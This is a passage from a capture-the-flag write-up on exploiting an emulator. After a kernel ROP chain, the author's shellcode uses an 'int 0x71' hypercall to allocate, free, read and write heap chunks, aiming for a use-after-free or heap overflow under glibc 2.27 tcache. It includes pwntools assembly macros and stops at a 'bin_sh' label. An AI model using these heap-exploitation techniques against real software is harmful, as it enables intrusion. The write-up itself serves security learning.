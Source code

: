 # Pwn the emulator

After we send our `krop2` ropchain above, the kernel will be waiting for us to send our shellcode, once we send our shellcode, the kernel will execute it.

With this, we now have access to `int 0x71` (there were no gadgets in the kernel for this). We can use this to malloc / free chunks in the emulator at will. We can also use this to read from / write to the chunks at will. This lets us trigger either a UAF or a heap overflow (or both) in the emulator.

## Complications

The first thing to note is that the emulator's allocator does not use the glibc heap region of memory. A pointer to the chunk you allocate will be stored `PIE_base + 0x1a061e0`, so using GDB, you can find its address and view it. I found it useful to set a breakpoint on `exit` to view the state of the heap after our shellcode runs.

Even though it doesn't use the glibc heap memory region, it does use the glibc malloc / free. We're given the `libc.so.6` file, so we know that its libc 2.27, which has the tcache enabled (with the new mitigations).

One other thing I had an issue with was when doing a UAF write to overwrite the `fd` of a freed chunk. The emulator kept crashing any time I did that and let it continue running. I spent like 4-5 hours debugging this, and gave up at 4am.

The problem was that once the kernel thread stops, `__libc_thread_freeres` is called by the emulator, which will free each chunk on the heap. The way it does this is it follows every freed chunk's `fd` pointer and calls `free` on it (no idea how that works lol). If you've overwritten the `fd` pointer to point to some memory region that doesn't have a valid chunk header, all sorts of things can go wrong when this fake chunk is freed. I think I saw 4 different `malloc.c` error messages in total. It took me way too long to figure out that I should just complete my exploit and ignore the crash.

## Helper code / macros

First, I defined some helper macros in the pwntools `asm()` syntax as follows:

```python
kshellcode = asm(r"""                                                           
;// macro to call malloc in the emulator                                        
#define malloc(size)\                                                           
mov rax, 0;\                                                                    
mov rdi, size;\                                                                 
int 0x71;                                                                       
                                                                                
;// macro to call free in the emulator                                          
#define free()\                                                                 
mov rax, 3;\                                                                    
int 0x71;                                                                       
                                                                                
;// macro to read from the currently allocated chunk into `addr`
#define read(addr, size)\                                                       
mov rax, 2;\                                                                    
mov rdi, addr;\                                                                 
mov rsi, size;\                                                                 
int 0x71;                                                                       
                                                                                
;// macro to write the contents of `addr` into the currently allocated chunk
#define write(addr, size)\                                                      
mov rax, 1;\                                                                    
mov rdi, addr;\                                                                 
mov rsi, size;\                                                                 
int 0x71;

bin_sh:                                                                         
```